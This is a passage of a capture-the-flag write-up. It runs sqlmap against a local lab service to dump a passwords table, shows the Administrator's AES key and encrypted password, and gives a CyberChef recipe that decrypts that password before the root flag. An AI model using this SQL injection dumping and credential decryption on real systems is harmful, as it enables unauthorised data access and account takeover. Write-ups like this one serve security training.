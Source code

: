 <p>Let`s ROLL</p>

<pre><span class="line">sqlmap -u http://127.0.0.1:1234/index.php\?method\=select\&amp;username\=administrator\&amp;table\=passwords --dump</span><br><span class="line"></span><br><span class="line">Database: bread</span><br><span class="line">Table: passwords</span><br><span class="line">[1 entry]</span><br><span class="line">+----+---------------+------------------+----------------------------------------------+</span><br><span class="line">| id | account       | aes_key          | password                                     |</span><br><span class="line">+----+---------------+------------------+----------------------------------------------+</span><br><span class="line">| 1  | Administrator | k19D193j.&lt;19391( | H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw= |</span><br><span class="line">+----+---------------+------------------+----------------------------------------------+</span><br></pre>

<p>Now we need to decrypt the password</p>
<p>So we need to use base64 decode and after that we need to use aes decrypt with the key we got</p>
<br>
<p>You can use this link to decrypt it</p>
<pre><span class="line">https://gchq.github.io/CyberChef/<span class="comment">#recipe=From_Base64('A-Za-z0-9%2B/%3D',false)AES_Decrypt(%7B'option':'Latin1','string':'k19D193j.%3C19391('%7D,%7B'option':'Hex','string':'0000000000000000000000000000000'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':'undefined'%7D)&amp;input=SDJkRnovak53dFNUV0RVUm90OUpCaFdNUDZYT2RtY3BncXZZSEczNVFLdz0</span></span><br></pre>

<h1>ROOT Flag</h1>

<img src="https://i.ibb.co/f4hcNBg/ROOT.png" alt="ROOT" border="0">



<img src="https://i.pinimg.com/originals/2a/10/bd/2a10bd126b2287247102dd88fd47ec7b.gif
" alt="ROOT" border="0">
